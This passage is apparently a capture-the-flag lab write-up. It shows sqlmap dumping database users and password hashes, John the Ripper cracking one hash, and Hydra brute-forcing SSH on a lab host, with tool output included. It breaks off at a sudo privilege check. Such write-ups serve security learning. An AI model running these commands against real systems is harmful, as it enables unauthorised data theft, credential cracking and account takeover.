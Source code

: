 ```sqlmap -u "http://example.com/products/1" --dbs --columns```
![Image](https://imgur.com/oX0UPre.png)

Boom dump and we have the first flag....

# FLAG 2

Ok we still have some colmuns to dump like User and Password let go ahead and do that i don't need to explain how to do that again it already explain in the Flag 1 section.

![Image](https://imgur.com/8mDqEAA.png)

Ok let dump the system_user table also.

![Image](https://imgur.com/DOld18Z.png)

Cool let do the same thing for both the passords columns..

![Image](https://imgur.com/MFWMJcd.png)

Boom we have the hash let dump the user table also.

![Image](https://imgur.com/RUaAeZQ.png)

Now to make it easy let create a file name it username for all the username we got in the database and also a seperate file name with hash.

![Image](https://imgur.com/DStDOmA.png)

Now let try to crack the hash file we just save with John The Ripper.

```sudo john --wordlist=rockyou.txt hash```

![Image](https://imgur.com/H8ZZgts.png)

So among all the hashes i was able to crack only one with John The Ripper ok i love running Hydra with the password i found on any boxes so we have only a password and bunch of username let brute force SSh with it.

```hydra -L username file -p password we have ssh://IP```

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-24 09:20:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:4/p:1), ~1 try per task
[DATA] attacking ssh://10.10.31.97:22/
[22][ssh] host: 10.10.31.97   login: REDACTED   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-24 09:20:32
```
Boom we have ssh details let log in now.

![Image](https://imgur.com/1IDeEUp.png)

Boom Boom we have flag2 let move on.

# FLAG 3

Let check Sudo -l

![Image](https://imgur.com/mQSF5nz.png)
```